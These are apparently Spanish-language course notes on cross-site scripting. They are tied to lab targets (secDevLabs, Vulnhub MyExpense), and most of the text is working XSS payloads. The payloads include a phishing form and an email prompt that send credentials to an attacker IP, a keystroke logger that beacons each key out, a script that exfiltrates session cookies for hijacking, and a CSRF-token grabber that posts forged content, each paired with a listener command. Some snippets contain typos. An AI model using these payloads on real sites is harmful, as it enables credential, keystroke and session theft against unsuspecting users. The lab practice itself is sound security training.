 # Cross-Site Scripting

Tags: #XSS #OWASP #Explotacion 

Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

-   **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
-   **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
-   **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de GitHub correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

-   **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)
* [Ejercicios-XSS](https://sudo.co.il/xss/)
## HTML

```javascript
<h1>Hola</h1>                                                              /// Podemos hacer inyecciones con codigo HTML
<marquee>Hola</marquee>                                                    /// Podemos usar marquee para que el texto nos salga animado, de izquierda a derecha 

<a href="https://www.ionos.mx/digitalguide/URL">Texto ancla</a>            /// Para colocar un enlace 

<img src="images/imagen.png">                                              /// Para agregar una imagen
<img src="https://test.com/images/imagen.png">

<img src="X" onerror=alert(1) />                                                     /// Para colocar un alert basado en un error 

<iframe src="http://ejemplo.org/demo.html" height="400" width="800" name="demo">     /// Para agregar una pagina dentro de otra pagina con dimenciones 
  <p>Su navegador no es compatible con iframes</p>
</iframe>
```

## JavaScript en la web

Los XSS pueden interpretar código en **HTML y/o  JavaScript** y es ahí en donde podemos colocar las inyecciones.

```javascript
<script>alert("XSS")</script>                                /// Creamos una ventana emergente con codigo javascript que dice XSS

<script>                                                     /// Para mandar algo por el metodo POST a un dominio 
  fetch('https://kwklry4t8e18m8q8k5uikgydy44vslga.oastify.com',{method:'POST', mode:'no-cors', body:'omar'});
</script>
```

----
Podemos crear un script en donde nos devuelva el correo o algún dato a nuestra IP con un servidor hecho con http,  colocamos la IP de nuestro servidor en fetch.
```javascript
<script>
    var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");

    if (email == null || email == ""){
        alert("Es necesario introducir un correo para ver el post");
    } else{
        fetch("http://192.168.68.108/?email=" + email );  
    }
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
También lo podemos hacer con HTML (Phishing)
```html
<div id="formContainer"></div>

<script>
	var email;
	var password;
	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contrasena: <input type="password" id="password" required>' +
		'<input type="button" onclick="submitForm()" value="Submit">' +
		'</form>';
		
	document.getElementByld(formContainer”).innerHTML = form;
	
	function submitForm() {
		email = document.getElementByld("email").value;
		password = document.getElementByld("password").value;
		fetch("http://192.168.68.108/?email=" + email + "&password="+ password);
	}
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
Podemos crear un Keylogger JavaScript
```javascript
<script>
   var k = "";    document.onkeypress = funtion(e){
        e = e || window.event;                        // Opcional para que en cualquier navegador funcione el Keylogger
        k += e.key;
        var i = new Image();
        i.src = "http://192.168.68.111/" + k;
    };
</script>
```

```bash
❯ python3 -m http.server 80  | grep -oP "GET /\k[^.*\s]+"      # Nos montamos un servidor http 80 para recibir las peticiones y que las filtre 
```

----
Podemos crear un Script para redirigir al usuario
```javascript
<script>
	window.location.href = "https://hack4u.io";
</script>
```

## JavaScript 

Web para identificar un [Json Web Token](https://jwt.io/), este se encuentra en: **Ctrl + Shift + c > Application/Storage > Session**

External JavaScript Source, podemos cargar código desde un servidor externo para tratar de robarle la cookie de sesión.
* Debemos de ver en la web que no tenga activa el **httpOnly** y se encuentra en **Application** ya que eso impediria poder robarla.
* Esto seria un **Cookie Hijacking**

Esto lo colcaremos en la web de prueba y crearemos la publicacion
```javascript
<script src="http://192.168.68.111/test.js"></script>
```
* Cuando creas el archivo .js ya no es necesario poner las cabeceras <script></script> y lo podemos pegar directamente en la web de prueba
```bash
❯ nvim test.js                                                  # Creamos el archivo js
```

Con este robamos la Cookie de Sesion del usuario.
```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.68.111/?cookie=' + document.cookie);
request.send();         
```

```bash
❯ python3 -m http.server 80                                     # Nos montamos un servidor http 80 para recibir las peticiones 
```
Después de tener la **Cookie de Session** podemos pegarla en donde se encuentra la nuestra 'sustituyendola' en la web y así cuando recarguemos la pagina, estaremos como el otro usuario.

----

Esto lo colocaremos en la web de prueba y crearemos la publicación
```javascript
<script src="http://192.168.68.111/pwned.js"></script>
```

* Cuando creas el archivo .js ya no es necesario poner las cabeceras <script></script>
```bash
❯ nvim pwned.js                                                  # Creamos el archivo js
```

Esto se usa una vez obtenido la **csrf_token y value**
```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withcredentials = true;                               // Por si el Token es Dinamico y asi lo volvemos Estatico
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parserFromString(respose, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = "title=HACKED&subtitle=HaCkEd&text=HAC%20ked&_csrf_token=" + token;   // El %20 es un espacio en urlencode
req2.open('POST', 'http://localhost:10007/newgossip', false); 
req2.withcredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

```bash
❯ python3 -m http.server 80                                     # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
En esta clase, trataremos de resolver una máquina de la plataforma de **Vulnhub** para practicar los ataques XSS.

Vulnhub es una plataforma de seguridad informática que se centra en la creación y distribución de máquinas virtuales vulnerables con el fin de mejorar las habilidades de los profesionales de la seguridad informática. La plataforma proporciona una amplia variedad de máquinas virtuales (VM) que se han configurado para contener vulnerabilidades deliberadas que pueden ser explotadas para aprender y reforzar técnicas de hacking.

A continuación, se proporciona el enlace a la máquina que nos descargamos en esta clase para practicar esta vulnerabilidad:

-   **Máquina MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)


